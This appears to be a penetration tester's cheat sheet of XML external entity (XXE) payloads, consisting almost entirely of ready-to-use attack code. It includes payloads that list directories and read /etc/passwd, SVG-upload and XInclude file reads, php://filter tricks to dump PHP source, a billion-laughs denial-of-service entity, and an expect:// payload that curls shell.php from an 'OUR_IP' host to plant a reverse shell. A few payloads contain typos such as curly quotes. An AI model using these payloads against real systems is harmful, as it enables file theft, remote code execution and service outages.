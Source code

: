 
Directory listing:
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE aa[<!ELEMENT bb ANY><!Entity xxe SYSTEM “file:///”>]>
<root><foo>&xxe;</foo></root>
```

Listing etc Directory:
```XML
<?xml version="1.0" encoding="UTF-8"?>
<?DOCTYPE root[<!ENTITY xxe SYSTEM “file:///etc/”>]>
<root><foo>&xxe;</foo></root>
```

Display file contents:
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

Display file contents in URL:
```XML
<!DOCTYPE data [ <!ENTITY % d SYSTEM "file:///etc/passwd"> %d; ]>
```

LFI using ENTITY... Will have to include the entity name in the xml request somewhere ex. &company;

```XML
<!DOCTYPE email [<!ENTITY company SYSTEM "file:///etc/passwd">]>
```

Image SVG upload for LFI
```XML
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Xinclude:
```XML
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

Read source code in PHP web Applications via form input
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```

Read PHP sourcecode via HTTP request
```XML
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

Creating an XML ENTITY. Add this at the top of the fields and then reference it &ENTITY; to display
```XML
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

Uploading reverse shell via XML
```XML
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

XXE DoS
```XML
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
```


